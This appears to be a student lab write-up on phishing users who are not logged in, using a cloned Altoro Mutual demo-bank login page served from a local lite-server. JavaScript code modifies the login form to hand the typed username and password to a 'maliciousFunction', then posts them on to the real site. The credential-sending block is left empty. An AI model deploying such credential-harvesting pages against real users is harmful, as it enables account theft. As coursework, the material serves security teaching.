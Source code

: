 # XSS attack against a user that is currently not logged in



## This entire task covers both of the below mentioned operations

1. Design an attack that fakes the Login form to attack users that are currently not logged in. Send the login information to a server of your choice and login the user normally afterwards.
2. How can you hide the attack code to the victim? Implement an exemplary concealment.



## Create Lite-Server

We have used the Angular CLI for project development as node project. We will use the **lite-server** for creating the web-server (HTTP-Server). We can add the lite-server library through npm or yarn.

Installed lite-server through yarn
```
yarn add lite-server
```

or use npm to install lite-server
```
npm install lite-server
```



## Configure the Lite-Server

We have added the following code in the `package.json` file (which acts is project and library manager for the web application developed as a node project) within `script` section:

```
  "scripts": {
    ...
    "lite-server": "lite-server -c=bs-config.json"
    ...
  },
```

The configuration detail for the lite-server is mentioned within the `bs-config.json` file.

Code within the `bs-config.json` file:
```
{
    "_comment1": "https://github.com/johnpapa/lite-server",
    "_comment2": "https://www.browsersync.io/docs/options",
    "port": 3000,
    "host": "127.0.0.1",
    "files": ["./lite-server/*.{html,htm,css,js}"],
    "server": { 
        "baseDir": "./lite-server"
    }
}
```

The configuration file tells the lite-server library to run as the ***HTTP-Server*** on the host `127.0.0.1 or localhost` and port `3000`.



## Execute the 'lite-server' HTTP-server through `yarn` or `npm`

Start lite-server through yarn:
```
yarn run lite-server
```

Start lite-server through npm:
```
npm run lite-server
```

Screenshot:  
![Screenshot](img/XSS_NLU_Run_LiteServer.png)

Screenshot browser:
![Screenshot](img/XSS_NLU_HTTP_Page.png)



## Open the Login page of the 'Altoro Mutual'

We have created the fake login page that looks exactly like the bank's login website. Upon clicking the link on the top with text `Login to Altoro Mutual`, a popup page will open with the login screen of the ***Altoro Mutual***:  

![Screenshot](img/XSS_NLU_Login_Page.png)


## Upon entering the credentials

The user can enter the credentials in order to login on the bank's web application.

![Screenshot](img/XSS_NLU_Login_Credentials.png)

Upon clicking on the login button following code (copied from web page on the bank's web application) gets executed:
```

			function confirminput(myform) {
			    if (myform.uid.value.length && myform.passw.value.length) {
					debugger;
					try {
				  		window.parent.maliciousFunction(myform.uid.value, myform.passw.value);	
					} catch (error) {
						console.log(JSON.stringify(error))
					}
			      return (false);
				}
				else if (!(myform.uid.value.length)) {
			      alert ("You must enter a valid username");
			      return (false);
			    } else {
			      alert ("You must enter a valid password");
			      return (false);
			    }
			}
			window.onload = setfocus;
```

The modification from the authentic are:
```
                    debugger;
					try {
				  		window.parent.maliciousFunction(myform.uid.value, myform.passw.value);	
					} catch (error) {
						console.log(JSON.stringify(error))
					}
```
The `debugger` is added for the debugging purpose to view the code execution flow.



## Malicious Code

The `index.html` contains the malicious that get execution from the popup window (containing the User Interface of the Bank's Login Page) that is meant for the user login.

```
/**
     * Redirect to respective page with following parameters.
     * Do not use this function without intimation from the author (Vivek Yadav)
     * This code has been written before 2006
     * @param {type} to
     * @param {type} p
     * @returns {undefined}
     */
    function postwith (to,p) {
      var myForm = document.createElement('form');
      myForm.method='post' ;
      myForm.action = to ;
      for (var k in p) {
        var myInput = document.createElement('input') ;
        myInput.setAttribute('name', k) ;
        myInput.setAttribute('value', p[k]);
        myForm.appendChild(myInput) ;
      }
      document.body.appendChild(myForm) ;
      myForm.submit();
      document.body.removeChild(myForm) ;
    }
    
    function maliciousFunction(username, password) {
      // Start > Code to send the credentials
      
      // End > Code to send the credentials

      postwith("https://demo.testfire.net/doLogin",{
        uid : username,
        passw: password
      });
    }
```

After after entering the correct login credentials from bank and clicking on the login button the user is redirected to the welcome page of the bank's web application. 

![Screenshot](img/XSS_NLU_Login_Success.png)


The malicious section mentioned below can have code to silently send the user's credential to an endpoint on the malicious server accepting the credentials. 
```
      // Start > Code to send the credentials
      
      // End > Code to send the credentials
```


## Enchancement to the Malicious Code

The malicious section can be enhanced with an additional lines of code to verify the success response from the server and redirect the user to the main page of the bank's web application (server). For this task `ajax` function from 'jQuery' can be a perfect candidate.
```
    function maliciousFunction(username, password) {
      // Start > Code to send the credentials
      $.post({
          url: "https://demo.testfire.net/doLogin",
          ...
          success : function(res) {
            if( [res is positive] ) {
                postwith("https://demo.testfire.net/doLogin",{
                    uid : username,
                    passw: password
                });
            }
            else {
                // Display error message exactly mentioned on the server.
            }
          },
          ...
      })
      // End > Code to send the credentials

    }
```

